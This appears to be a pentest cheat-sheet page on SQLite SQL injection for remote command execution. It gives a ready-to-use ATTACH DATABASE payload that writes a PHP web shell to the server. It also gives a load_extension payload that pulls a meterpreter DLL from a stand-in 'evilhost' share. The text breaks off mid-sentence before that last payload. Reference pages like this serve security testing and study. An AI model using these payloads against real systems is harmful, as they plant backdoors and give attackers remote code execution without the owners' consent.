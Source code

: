 # Web Application - SQL Injection - SQLite

### Remote Command Execution

###### Attach Database

The SQLite `ATTACH DATABASE` statement permit to attach additional databases to
the current database connection. It can thus be used to attach to others
databases stored on the file system and that may contain interesting
information.

Moreover, if the attached database does not exist, a new file is created on
the file system, given the web server user as write privilege at the specified
path. By creating a file that will be executed by the web server and inserting
code in a table field, remote command execution can be achieved upon access of
the file.   

Note: stacked queries must be supported, which is the default SQLite
configuration

```
# Example ATTACH DATABASE to write a PHP web shell

ATTACH DATABASE '<FULLPATH | RELATIVE_PATH>/<FILENAME>' AS file; CREATE TABLE file.cmd (dataz text); INSERT INTO file.cmd (dataz) VALUES ('<?system($_GET["cmd"]); ?>');--
```

###### Load_extension

The `SELECT load_extension` statement can be used to load

UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--
